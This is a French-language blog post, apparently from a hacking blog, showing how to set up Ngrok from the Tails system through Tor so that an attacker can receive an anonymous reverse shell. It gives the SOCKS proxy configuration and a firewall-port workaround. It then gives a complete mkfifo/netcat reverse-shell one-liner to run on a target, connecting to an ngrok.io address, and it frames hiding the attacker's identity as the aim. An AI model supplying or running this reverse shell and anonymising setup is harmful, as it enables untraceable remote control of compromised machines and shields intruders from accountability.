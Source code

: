 ```yaml
---
title: "Utiliser Ngrok depuis Tails"
tags: [Vie privée et anonymat]
---
```


EDIT du 4 mars 2023 :

La dernière fois que j'ai utilisé Ngrok il fallait faire avec des barrières supplémentaires.
Par exemple pour le mode `http` il fallait que le client envoie un entête spécifique pour que les requêtes soient acceptées.
Cela peut rendre plus difficile certains scénarios d'utilisation.

Il y a un bon moment de cela j'avais présenté comment il était possible de mettre en place un reverse-shell anonyme [en faisant transiter un tunnel Ngrok à travers un tunnel Tor]({% link _posts/2017-07-22-Les-Questions-Cons-du-Hacking-Un-reverse-shell-anonyme-c-est-possible.md %}).  

L'objectif du présent article consiste à effectuer cette opération depuis le système [Tails](https://tails.boum.org/index.fr.html) qui est très cloisonné et rend impossible toute communication entrante ou sortante qui ne passerait pas par le proxy SOCKS local. Cela évite toute erreur humaine qui pourrait compromettre l'identité de l'attaquant (exemple : oublier de préfixer une commande par un [torify](https://linux.die.net/man/1/torify) ou utiliser un programme donc les fonctions de proxy sont défaillantes). C'est donc un bon exemple d'[OPSEC](https://fr.wikipedia.org/wiki/OPSEC).  

Une fois *Tails* démarré on lance le *Tor Browser* pour se rendre sur *ngrok.com* et sur [la page des téléchargements](https://ngrok.com/download).  

Le site détecte normalement que vous êtes sur un système Linux 64 bits donc il suffit de cliquer sur *Download for Linux*  

![Download Ngrok](/assets/img/tails_ngrok/tails_ngrok_download.png)

On récupère alors une archive zip contenant le binaire. Tails ne dispose pas de la commande `unzip` mais un utilitaire d'archives permet d'extraire graphiquement le fichier :  

![Ngrok unzip binary](/assets/img/tails_ngrok/tail_ngrok_unzip.png)

Une fois le binaire extrait il faut s'enregistrer sur *Ngrok* afin de pouvoir utiliser l'option `tcp` de l'exécutable (on peut faire des tunnels spécifiques à HTTP/HTTPs avec la commande `http`, les autres protocoles sont gérés avec l'option `tcp`).  

*Ngrok* ne fait pas de vérification des informations saisies lors de l'inscription toutefois vous aurez un reCaptcha à résoudre.  

![Register Ngrok account](/assets/img/tails_ngrok/tails_ngrok_register.png)

Une fois connecté avec vos identifiants, vous verrez sur le dashboard une commande permettant l'activation du compte en local.  

![Ngrok token activation](/assets/img/tails_ngrok/tails_ngrok_activate.png)

À ce stade si vous lancez *Ngrok* il ne parviendra pas à établir un tunnel en raison des règles de filtrage strictes de Tails.  

Il faut donc éditer le fichier de configuration de *Ngrok* pour spécifier l'utilisation d'un proxy socks.  

![Ngrok Tor proxy usage](/assets/img/tails_ngrok/tails_ngrok_socks5.png)

L'opération consiste à rajouter dans le fichier `/home/amnesia/.ngrok2/ngrok.yml` la ligne suivante :  

```yaml
socks5_proxy: "socks5://localhost:9050",
```

*Vi* est présent sur le système, mais il s'agit d'une version *tiny* :-( Il faut faire avec.  

Pour créer un tunnel, on serait tenté d'utiliser n'importe quel numéro de port, mais les règles de pare-feu de Tails empêchent même des connexions localhost vers localhost :  

![Tails block tcp connection on localhost](/assets/img/tails_ngrok/tails_ngrok_netcat.png)

On en apprend plus en étudiant les règles iptables :  

```
Chain OUTPUT (policy DROP)
target     prot opt source               destination        
ACCEPT     all  --  anywhere             anywhere             state ESTABLISHED
ACCEPT     icmp --  anywhere             anywhere             state RELATED
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9050 flags:FIN,SYN,RST,ACK/SYN owner UID match _apt
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9050 flags:FIN,SYN,RST,ACK/SYN owner UID match proxy
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9050 flags:FIN,SYN,RST,ACK/SYN owner UID match nobody
ACCEPT     tcp  --  anywhere             localhost            tcp flags:FIN,SYN,RST,ACK/SYN multiport dports 9050,9062,9150 owner UID match amnesia
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9062 flags:FIN,SYN,RST,ACK/SYN owner UID match htp
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9062 flags:FIN,SYN,RST,ACK/SYN owner UID match tails-iuk-get-target-file
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9062 flags:FIN,SYN,RST,ACK/SYN owner UID match tails-upgrade-frontend
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9052 owner UID match root
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9051 owner UID match amnesia
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9051 owner UID match tor-launcher
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:9040 owner UID match amnesia
ACCEPT     udp  --  anywhere             localhost            udp dpt:domain owner UID match amnesia
ACCEPT     udp  --  anywhere             localhost            udp dpt:mdns owner UID match amnesia
DROP       udp  --  anywhere             localhost            udp dpt:domain owner UID match _apt
DROP       udp  --  anywhere             localhost            udp dpt:mdns owner UID match _apt
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:4101 flags:FIN,SYN,RST,ACK/SYN owner UID match amnesia
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:4101 flags:FIN,SYN,RST,ACK/SYN owner UID match Debian-gdm
ACCEPT     tcp  --  anywhere             localhost            tcp dpt:ipp flags:FIN,SYN,RST,ACK/SYN owner UID match amnesia
ACCEPT     tcp  --  anywhere             localhost            tcp dpts:17600:17650 flags:FIN,SYN,RST,ACK/SYN owner UID match amnesia
ACCEPT     tcp  --  anywhere             anywhere             owner UID match clearnet
ACCEPT     udp  --  anywhere             anywhere             owner UID match clearnet udp dpt:domain
ACCEPT     tcp  --  anywhere             anywhere             owner UID match debian-tor tcp flags:FIN,SYN,RST,ACK/SYN state NEW
ACCEPT     udp  --  anywhere             anywhere             owner UID match debian-tor udp dpt:domain
lan        all  --  anywhere             10.0.0.0/8          
lan        all  --  anywhere             172.16.0.0/12      
lan        all  --  anywhere             192.168.0.0/16      
LOG        all  --  anywhere             anywhere             LOG level debug uid prefix "Dropped outbound packet: "
REJECT     all  --  anywhere             anywhere             reject-with icmp-port-unreachable
```

On peut voir que le port 4101 est autorisé or, il semble qu'aucun service ne l'utilise. Notez que pour réaliser des opérations d'administration sur le système (comme ici pour les règles `iptables`) il faut lancer *Tails* avec un réglage défini au démarrage.  

![Tails listening ports](/assets/img/tails_ngrok/tails_listening_ports.png)

On peut finalement mettre un netcat (présent par défaut sur le système) en écoute sur le port `4101` et lancer *Ngrok* avec `./ngrok tcp 4101`.  

Sur la cible, on exécutera un reverse-shell se connectant au serveur *Ngrok* :  

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ngrok.io 13870 >/tmp/f
```

![Ngrok reverse shell](/assets/img/tails_ngrok/tails_ngrok_reverse_shell.png)

*Tails* est très bien pour avoir un bon niveau d'OPSEC sur du pentest web. Les interpréteurs python2 et python3 sont aussi présent donc on peut faire tourner *Wapiti* ou *SQLmap* ou d'autres applications en Python (généralement simples à torifier).  

En revanche certains programmes comme `smbclient` ne sont pas présents et les installer peut nécessiter l'ajout d'un dépôt supplémentaire, on perd donc la philosophie *restreinte* de l'environnement.  

De la même façon les programmes écrits en Go comme `gobuster` ne fonctionnent pas nécessairement avec `torify`. [Whonix](https://www.whonix.org/) serait certainement plus adapté à une utilisation plus large.

*Published March 09 2020 at 18:08*
